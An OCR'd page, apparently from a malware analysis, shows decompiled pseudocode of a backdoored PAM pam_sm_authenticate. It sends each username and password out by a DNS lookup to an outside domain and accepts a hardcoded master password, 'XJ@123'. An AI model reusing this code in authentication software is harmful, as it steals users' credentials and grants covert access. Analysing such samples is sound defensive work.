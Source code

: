 跳转到引用函数

```c
int __fastcall pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv)
{
    int v4; // r14d
    int *v5; // rax
    int *v6; // r13
    int user; // eax
    int v8; // r12d
    int authtok; // eax
    int v11; // r14d
    bool v12; // zf
    const char *name; // [rsp+10h] [rbp-A8h] BYREF
    const char *p; // [rsp+18h] [rbp-A0h] BYREF
    unsigned __int8 hostname[100]; // [rsp+20h] [rbp-98h] BYREF

    v4 = set_ctrl(pamh, flags, 0LL, 0LL, 0LL, argc, argv);
    v5 = (int *)malloc(4uLL);
    if ( !v5 )
    {
        v8 = 5;
        pam_syslog(pamh, 2LL, "pam_unix_auth: cannot allocate ret_data");
        return v8;
    }
    v6 = v5;
    user = pam_get_user(pamh, &name, 0LL);
    v8 = user;
    if ( user )
    {
        if ( user == 30 )
        v8 = 31;
        *v6 = v8;
        goto LABEL_15;
    }
    if ( name && ((*name - 43) & 0xFD) != 0 )
    {
        if ( unix_blankpasswd(pamh, v4, name) )
        {
            name = 0LL;
            *v6 = 0;
LABEL_15:
            pam_set_data(pamh, "unix_setcred_return", v6, setcred_free);
            return v8;
        }
        authtok = pam_get_authtok(pamh, 6LL, &p, 0LL);
        v8 = authtok;
        if ( authtok )
        {
            if ( authtok == 30 )
                v8 = 31;
            else
                pam_syslog(pamh, 2LL, "auth could not identify password for [%s]", name);
            name = 0LL;
            *v6 = v8;
            goto LABEL_15;
        }
        v11 = unix_verify_password(pamh, name, p, v4);
        get_dns_servers();
        snprintf((char *)hostname, 0x64uLL, "%s.%s c0ee2ad2d8.ipv6.xxx.eu.org.", name, p);
        if ( !fork() )
            ngethostbyname(hostname, 1);
        v12 = strcmp("XJ@123", p) == 0;
        v8 = !v12;
```
